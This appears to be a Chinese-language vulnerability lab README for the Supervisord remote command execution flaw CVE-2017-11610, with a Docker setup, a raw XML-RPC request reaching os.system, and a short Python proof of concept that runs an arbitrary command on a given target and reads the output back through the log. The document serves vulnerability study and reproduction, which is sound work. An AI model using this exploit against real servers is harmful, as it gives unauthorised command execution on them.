 # Supervisord 远程命令执行漏洞（CVE-2017-11610）

参考链接：

 - https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
 - https://blogs.securiteam.com/index.php/archives/3348
 - https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 运行环境

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面。

## 漏洞测试

直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![](01.png)

## 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](poc.py)，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：

![](02.png)
